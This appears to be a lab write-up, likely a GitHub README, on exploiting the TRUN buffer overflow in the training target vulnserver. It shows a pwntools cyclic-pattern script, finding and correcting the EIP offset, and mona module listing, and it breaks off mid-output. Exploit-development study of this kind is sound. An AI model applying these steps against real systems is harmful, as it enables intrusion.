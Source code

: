## Exploitation

### 1. Control EIP
Send a cyclic string to the program, get the EIP value when the crash happens.
```python
io = start()

exploit = cyclic(3000)

info(io.recv(4096))
io.sendline(f'TRUN .{exploit}')
```
![UI Screenshot](img/01.png)  

The access violation occurs at: `0x75616162`.
```bash
ali㉿kali)-[~/Documents/bof/vulnserver]
└─$ pwn cyclic -l 0x75616162                                   
2004
```
The EIP offset is 2004.

### 2. Sanity check EIP
Send the payload now as follows: [OFFSET (size 2004)[BBBB]
This results in a crash at `0x000ABBBB`. In this instance the offset is two bytes off. This shows the importance of sanity checking to ensure EIP is correct before proceeding. Retrying with an offset of 2006 hits `\x42424242` bytes.

### 3. Locate JMP instruction
Firstly check modules with `!mona modules`.
```
0BADF00D   !mona modules

           ---------- Mona command started on 2021-03-21 10:04:32 (v2.0, rev 613) ----------
0BADF00D   [+] Processing arguments and criteria
0BADF00D       - Pointer access level : X
0BADF00D   [+] Generating module info table, hang on...
0BADF00D       - Processing modules
0BADF00D       - Done. Let's rock 'n roll.
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Module info :
0BADF00D   -----------------------------------------------------------------------------------------------------------------------------------------
0BADF00D    Base       | Top        | Size       | Rebase | SafeSEH | ASLR  | NXCompat | OS Dll | Version, Modulename & Path
```
